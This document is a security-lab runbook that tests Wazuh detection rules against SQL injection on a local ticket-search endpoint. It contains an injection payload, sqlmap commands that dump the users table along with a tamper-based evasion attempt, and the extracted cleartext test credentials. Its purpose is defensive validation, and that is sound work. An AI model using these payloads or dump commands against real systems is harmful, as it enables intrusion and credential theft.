

# Runbook RB-03 - SQL injection on /tickets/search

- **Scenario:** SQL injection in the ticket search field
- **Reference attack plan:** `detection/attack-plans/AP-03-sql-injection.md`
- **Detection rules:** 100120 (query), 100121 (body)
- **Execution date:** 23-10-2026
- **Operator:** Meghan CRESCI-HUMANN
- **Target:** SupportDesk V1 - `POST http://localhost:3000/tickets/search`
- **MITRE ATT&CK:** T1190 - Exploit Public-Facing Application

---

## 1. Prerequisites

- Wazuh and SupportDesk running.
- The endpoint requires a session: log in with a test account
  (`jdupont@supportdesk.local` / `User_123`).
- For the automated attack: `sqlmap` installed.

## 2. Attack execution

### Step A - manual injection (via the web interface)

In the ticket search bar (`http://localhost:3000/tickets`), enter:

```
' OR '1'='1
```

**Result:** the application displays **all tickets** instead of filtering. The condition
`'1'='1'` is always true: the `WHERE ... LIKE '%...%'` clause is neutralized.
This is the proof that the `search` field is injectable.

### Step B - automated extraction (sqlmap)

```bash
# Retrieve the session cookie
curl -s -c /tmp/cookies.txt -o /dev/null \
  -X POST http://localhost:3000/login \
  -d 'email=jdupont@supportdesk.local&password=User_123'
grep sid /tmp/cookies.txt   # connect.sid value

# BEFORE
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100121"' /var/ossec/logs/alerts/alerts.json

# sqlmap: detection + extraction of the users table
sqlmap -u "http://localhost:3000/tickets/search" \
  --data="search=test" \
  --cookie="connect.sid=<VALEUR>" \
  --batch --dump -T users

sleep 10
# AFTER
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100121"' /var/ossec/logs/alerts/alerts.json
```

### Step C - evasion attempt (tamper)

```bash
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100121"' /var/ossec/logs/alerts/alerts.json

sqlmap -u "http://localhost:3000/tickets/search" \
  --data="search=test" \
  --cookie="connect.sid=<VALEUR>" \
  --tamper=charencode --batch --flush-session --level=3

sleep 10
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100121"' /var/ossec/logs/alerts/alerts.json
```

`--tamper=charencode` encodes the payload characters; `--flush-session` forces sqlmap
to redo all its tests from scratch (without cache).

## 3. Observations (2026-10-23 execution)

| Step                               | Requests | 100121 alerts       | Result                                |
| ---------------------------------- | -------- | ------------------- | ------------------------------------- |
| A - manual injection `' OR '1'='1` | 1        | +1                  | ✅ all tickets displayed               |
| B - standard sqlmap                | ~50      | 4 -> 54 (**+50**)   | ✅ **`users` table extracted**         |
| C - sqlmap `--tamper=charencode`   | 328      | 55 -> 141 (**+86**) | ✅ successful extraction, **detected** |

### Extracted data (step B)

sqlmap dumped the entire `users` table - **10 accounts, passwords in cleartext**:

```
Table: users [10 entries]
| id | role  | email                       | password  | username |
| 1  | admin | admin@supportdesk.local     | Admin_123 | admin    |
| 2  | user  | jdupont@supportdesk.local   | User_123  | jdupont  |
| ...                                                           |
| 10 | admin | helpdesk@supportdesk.local  | Help_123  | helpdesk |
```

Complete compromise of the authentication database, including **two administrator accounts**.



## 4. Analysis

- **Detection confirmed at scale:** an isolated manual attack as well as a massive
  automated attack (328 requests) are detected. sqlmap is noisy: every test payload
  triggers the rule 100121.
- **Robustness against evasion:** with `--tamper=charencode`, the extraction still succeeds, but
  the rule generates **86 alerts out of 328 requests**. Encoding fails to hide the attack, because
  it only encodes the _values_ (`CHAR(...)`); the _structure_ of the injection (`UNION ALL SELECT`,
  `AND CASE WHEN`) remains in cleartext, and that is what the rule pattern targets.
- **Second detection angle:** sqlmap caused **131 HTTP 500 errors**. These internal
  errors are logged (`server_error` event): even an injection that would escape the
  SQLi rule would leave a trace through the server error spike.

## 5. Limitations and next steps

- **Critical application vulnerability:** passwords stored **in cleartext** in the database. A SQLi
  dump gives immediate access to all accounts. Priority application fix (hashing).
- **Further evasion:** other `--tamper` scripts (e.g. combinations, inline comments) could fragment
  the keywords further. To be tested in order to harden the pattern if necessary.
- **False positives:** the pattern must be checked against the normal-traffic script
  (step 3) - a legitimate search containing "union" or "select" as a standalone word
  must not alert (the pattern requires `union\s+select`, not the separate words).

## 6. Status

| Criterion (AP-03)                   | Result                        |
| ----------------------------------- | ----------------------------- |
| Severity ≥ 10 alert (100120/100121) | ✅                             |
| Detection < 2 min                   | ✅                             |
| Exploitation proof (data dump)      | ✅ 10 accounts + passwords     |
| Documented evasion attempt          | ✅ tamper detected (86 alerts) |
| Reproducible                        | ✅                             |

**Conclusion: scenario validated.** SQLi detection works against manual injection and
against an automated tool, including with an encoding-based evasion technique.